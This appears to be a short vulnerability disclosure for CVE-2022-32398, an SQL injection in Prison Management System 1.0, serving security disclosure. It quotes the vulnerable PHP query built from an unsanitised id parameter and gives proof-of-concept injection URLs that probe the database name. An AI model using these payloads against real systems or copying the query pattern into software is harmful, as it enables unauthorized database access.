


# CVE-2022-32398
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/cells/manage_cell.php:4`
```php
$qry = $conn->query("SELECT c.*, p.name as `prison` from `cell_list` c inner join prison_list p on c.prison_id = p.id where c.id = '{$_GET['id']}' and c.`delete_flag` = 0 ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/cells/manage_cell.php?id=1'-(if(database()='pms_db',0,1))%23
```
- True : 
`http://localhost/pms/admin/cells/manage_cell.php?id=1'-(if(database()='pms_db',0,1))%23`

- False : 
`http://localhost/pms/admin/cells/manage_cell.php?id=1'-(if(database()='wrong',0,1))%23`
